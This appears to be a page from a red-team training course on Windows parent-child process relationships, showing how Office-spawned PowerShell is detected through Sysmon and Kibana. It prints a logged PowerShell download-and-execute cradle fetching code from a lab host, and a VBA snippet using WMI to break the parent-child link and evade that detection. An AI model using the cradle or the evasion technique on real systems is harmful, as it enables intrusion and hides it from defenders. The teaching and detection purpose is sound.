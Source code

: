Processes have a one-to-many relationship, referred to as parent and children. When one process starts another, that new process is a child of the process that started it. A process may have many children, but only one parent. These relationships can be a good indicator of malicious activity on a system - this is a point that we won't dwell on too much throughout this course as we're still learning basic tradecraft, but we'll introduce the concept here.

In the example above, Microsoft Word started PowerShell to execute our payload. This created a relationship by which **powershell.exe** is a child of **winword.exe**. This isn't normal behaviour and highly suspicious.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/2eede86d-7040-4af0-9093-d2adcc474bce)


[Sysmon](https://docs.microsoft.com/en-gb/sysinternals/downloads/sysmon) and other defensive products can log process creation events, which includes the details of the parent and child. Defenders can use this information to trigger alerts when "sensitive" applications create children.

```shell
ProcessId: 2308
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
CommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"
User: DEV\bfarmer
ParentProcessId: 3684
ParentImage: C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
```

### Finding the Needle

You can verify this behaviour using the Elastic installation in the lab.  In the main Snap Labs Dashboard, click the **Apps** link in the top menu and then click the monitor icon next to the Kibana App entry.  The credentials are **elastic**:**elastic**.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/d0594419-2aa2-420e-8f61-f23e5a2ac56f)


We can start by finding all the Process Creation events logged by Sysmon.  From the Kibana home page, expand the menu in the top-left and then select **Discover** underneath the **Analytics** header.

First, ensure that you have the **winlogbeat-*** index selected.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/ae988682-4c1e-4ec9-a8dd-6f77ca43ec90)


Then in the search box, enter:
```
event.module : sysmon and event.type : process_start
```

The number of events you get back will depend on how long your lab has been running.  I have about 3,000 results from the 8 hosts that are being logged.  You can start to appreciate the difficultly in finding specific malicious activity across an entire enterprise environment with hundreds or even thousands of machines.  For that reason, we need to narrow down the search with additional parameters.  Specifically, in this case, we're interested in instances where MS Office applications are the parent.  So we can add the following to the search:
```
and process.parent.executable : *EXCEL.EXE | *WINWORD.EXE | *POWERPNT.EXE
```

Essentially what we're doing here is only returning results where the parent process path ends with EXCEL.EXE OR WINWORD.EXE OR POWERPNT.EXE.  When writing these queries, there are several aspects a defender needs to think about.  Some that spring to mind are:

-   Does the query cover all eventualities of interest?
-   Are there edge cases that this will miss?
-   Is the query performant?

A simple way to break this particular relationship is to use the WMI Win32_Process class to create the process:

```vb
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```

In this instance, PowerShell will be a child of **WmiPrvSE.exe** rather than MS Word.

>Execute different phishing payloads and find the corresponding logs in Kibana.

